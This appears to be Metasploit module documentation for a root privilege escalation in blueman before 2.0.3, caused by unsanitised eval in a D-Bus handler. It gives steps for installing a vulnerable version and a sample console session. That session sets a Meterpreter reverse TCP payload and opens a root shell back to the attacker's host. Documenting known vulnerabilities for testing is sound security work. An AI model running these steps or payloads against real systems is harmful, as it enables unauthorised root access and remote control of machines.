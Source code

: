 ## Description

  This module attempts to gain root privileges by exploiting a Python
  code injection vulnerability in blueman versions prior to 2.0.3.

  The `org.blueman.Mechanism.EnableNetwork` D-Bus interface exposes the
  `set_dhcp_handler` function which uses user input in a call to `eval`,
  without sanitization, resulting in arbitrary code execution as root.

  This module has been tested successfully with blueman version 1.23
  on Debian 8 Jessie (x64).


## Vulnerable Application

  This module has been tested successfully with:

  * blueman version 1.23 on Debian 8 Jessie (x64)

  Old versions of the `blueman` package are available in [Debian snapshots](https://snapshot.debian.org/).

  The following `/etc/apt/sources.list` configuration will allow a vulnerable
  version of the `blueman` package to be installed:
 
  ```
  deb [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  deb-src [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  ```

  Update the package sources with `apt-get -o Acquire::Check-Valid-Until=false update`

  The package can be installed with `apt-get install blueman`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc 
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DKJWL0TG7sm0M5' (249 bytes) ...
  [*] Executing payload...
  [*] Sending stage (861348 bytes) to 172.16.191.156
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.156:58863) at 2018-12-24 02:44:25 -0500
  [+] Deleted /tmp/.DKJWL0TG7sm0M5

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-8-1-x64.local
  OS           : Debian 8.1 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

